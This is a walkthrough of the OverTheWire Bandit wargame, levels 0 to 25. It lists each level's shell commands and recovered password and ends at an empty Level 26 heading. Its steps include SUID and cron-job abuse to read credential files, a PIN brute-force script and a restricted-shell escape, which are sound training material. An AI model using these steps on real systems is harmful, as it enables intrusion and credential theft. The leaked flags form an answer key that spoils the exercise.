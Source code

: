# Bandit

### Level00
The password is simply inside a readme file: `boJ9jbbUNNfktd78OOpsqOltutMc3MY1`

### Level01
The password is inside a file named "-", but we can't use _cat_ on it, so we'll just redirect the input with `cat < -`, where `-` is the file name.
The flag is `CV1DtqXWVFXTvM2F0k09SHz0YwRINYA9`

### Level02
The password is inside "spaces in this filename" so just use double quotes to get the name as the first parameter, `cat "spaces in this filename"`, `UmHadQclWmgdLOKQ3YNgjWxGoRMb5luK`

### Level03
The password is inside a hidden file (name starting with a dot) `pIwrPrtPN36QITSp3EQaw936yaFoFgAB`

### Level04
The password is inside the file `-file07` `koReBOKuIDDepwhWk7jZC0RTdopnAYKh`

### Level05
The file should have 1033 bytes, use `find . -size 1033c`, `DXjZPULLxYr17uwoI01bNLQbtFemEgo7`.

### Level06
Use global find. `find / -size 33c -group bandit06 -user bandit07` will lead to only one fie `/var/lib/dpkg/info/bandit7.password` with the data `HKBPTKQnIay4Fw76bEy8PVxKEDQRKTzs`.

### Level07
`cat data.txt | grep millionth` -> `millionth       cvX2JJa4CFALtqS87jk27qwqGhBM9plV`

### Level08
`sort data.txt | uniq -c` will sort and count each line. The one that exists only once is `UsvVyFSfZZWbi6wgC7dAFyFuR6jQQUhR`

### Level09
`xxd data.txt` until you find `truKLdjsbJ5g7yyJ2X2R0o3a5HQJFuLk`

### Level10
`cat data.txt | base64 -d` will give `The password is IFukwKGsFW8MOq3IRFqrxE1hxTNEbUPR`

### Level11
We can solve this ROT13 decryption with `tr '[A-Za-z]' '[N-ZA-Mn-za-m]'`, so `cat data.txt | tr '[A-Za-z]' '[N-ZA-Mn-za-m]'` -> `The password is 5Te8Y4drgCRfCx8ugdwuEX8KFC6k2EUu`

### Level12
`xxd -r data.txt > data.gz` will make it binary. `GZIP`.
`gunzip data.gz` will drop `data` file, that is compressed with `bzip2`.
`mv data data.bz2; bzip2 -d data.bz2` will give another `data` file. `GZIP`.
`mv data data.gz; gunzip data.gz` will drop `data` file, `POSIX tar archive`.
`mv data data.tar; tar xf data.tar` will drop `data5.bin`, `POSIX tar archive`.
`mv data5.bin data.tar; tar xf data.tar` will drop `data6.bin` `bzip2`.
`mv data6.bin data6.bz2; bzip2 -d data6.bz2` will drop `data6` `POSIX tar archive`.

After a few more tries we get a file: `The password is 8ZjyCRiBWFYkneahHwxCv3wb2a1ORpYL`.

### Level13 
We're given a private RSA key, so let's `ssh -i "sshkey.private" bandit14@localhost` and then `cat /etc/bandit_pass/bandit14` -> `4wcYUJFw0k0XLShlDzztnTBHiqxU3b3e`

### Level14
Let's use netcat to send data to the open network socket at port `30000`, `echo "4wcYUJFw0k0XLShlDzztnTBHiqxU3b3e" | nc localhost 30000` 

```
Correct!
BfMYroe26WYalil77FoDi9qh59eK5xNr
```

### Level15
Connecting via SSL is required, so let's do that `echo "BfMYroe26WYalil77FoDi9qh59eK5xNr" | openssl s_client -connect localhost:30001 -ign_eof`, just like with `nc`.

```
Correct!
cluFn7wTiGryunymYOu4RcffSxQluehd
```

### Level16
Use `nmap -p 31000-32000 localhost` to find out open ports, then send the previous level code with the password changed, we get a private key.
Copy the private key to `/tmp/tempdir/ssh.key`, then `chmod 700 ssh.key` and then `ssh -i "ssh.key" bandit17@localhost`, then `cat /etc/bandit_pass/bandit17` to get the password `xLYVMN9WE5zQ5vHacb0sZEVqbrp7nBTn`

### Level17
Run `diff passwords.old passwords.new` to get `kfBf3eYk5BPBRzwjqutbbfE887SVc5Yd`

### Level18
We have to avoid `bashrc` file, so we should run `/bin/sh` without any config `ssh bandit18@bandit.labs.overthewire.org -p 2220 /bin/sh`. Then `cat readme` to get `IueksS7Ubh8G3DCwVzrTd8rAVOwq3M5x`

### Level19
We don't have access to `/etc/bandit_pass/bandit20`, but the `SUID` binary allows us to execute commands as `bandit20`, so lets `./bandit20-do cat /etc/bandit_pass/bandit20` which gives us `GbKksEFF4yrVs6il55v6gwY5aVje5f0j`

### Level20
We need to set up our own server, here is the code:
It will send the password to whoever connects and the print what it recieved.

```
import sys
import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
addr = ('localhost', '31337')
sock.bind(addr)

sock.listen(1)

while True:
    conn, client = sock.accept()
    conn.sendall('GbKksEFF4yrVs6il55v6gwY5aVje5f0j')
	print conn.recv(1024)
    conn.close()
```

Then let's run `/home/bandit20/suconnect 31337` to get 

```
Read: GbKksEFF4yrVs6il55v6gwY5aVje5f0j
Password matches, sending next password
gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr
```

### Level21
Let's cat `cat /etc/cron.d/cronjob_bandit22`.
We get `@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null`, let's see what the shell script contains `cat /usr/bin/cronjob_bandit22.sh`
```
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```

So it prints the contents of the password file to some temp file. Let's `cat` the file -> `Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI`

### Level22
The shell script does `mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)`, which means it takes the md5 of the string "I am user bandit23" and then `cat /etc/bandit_pass/bandit23 > /tmp/<resulting_md5>`, so we firstly need to get the md5 of the string. `echo "I am user bandit23" | md5sum`, then let's look at the file with this name `cat /tmp/8ca319486bfbbc3663ea0fbe81326349` -> `jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n`

### Level23
The script runs all the scripts from `/var/spool/bandit24` and the deletes them. Let's make script `cat "/etc/bandit_pass/bandit24" > "/tmp/<tempdir>/result.txt"`, git it executable permissions and the copy it to `/var/spool/bandit24/script.sh`, let it run and get `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

### Level24
Let's make a simple script to brute-force the PIN

```
from pwn import *
conn = remote('localhost', 30002)
for i in range(0, 9999):
    s = '%04d' % (i)
    conn.sendline('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ' + s)
    print i, conn.recvline(),
```

We get 
```
5441 5441 Correct!
5442 5442 The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

### Level25
How do we find which terminal is being used? Let's `cat /etc/shells`. Probably it's using `/usr/bin/showtext`, then contains 
```
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```

So it's using more, it means to freeze it from disconnecting, we have to make it output more than one screen, so let's make the window smaller.
After it triggers `more`, type `v` to run `vi` and then `:e /etc/bandit_pass/bandit26`, which is the command to open a new file for editing (`e`).
The opened file contains `5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z`

### Level 26